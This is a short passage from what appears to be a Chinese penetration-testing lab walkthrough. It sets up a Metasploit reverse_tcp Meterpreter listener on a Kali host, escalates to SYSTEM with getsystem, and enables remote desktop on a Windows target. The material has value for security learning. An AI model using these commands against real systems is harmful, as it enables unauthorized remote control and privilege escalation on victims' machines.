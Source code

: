 ```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.121.129 (kali IP)
set lport 2333 (监听的端口)
run
```

接着`getuid`查看一下当前权限，然后`getsystem`提为system权限

![image-20220525180716791](images/29.png)

提权成功，但是并没有开启3389端口

![image-20220525180741795](images/30.png)

开启远程桌面`run post/windows/manage/enable_rdp`

![image-20220525181831312](images/31.png)
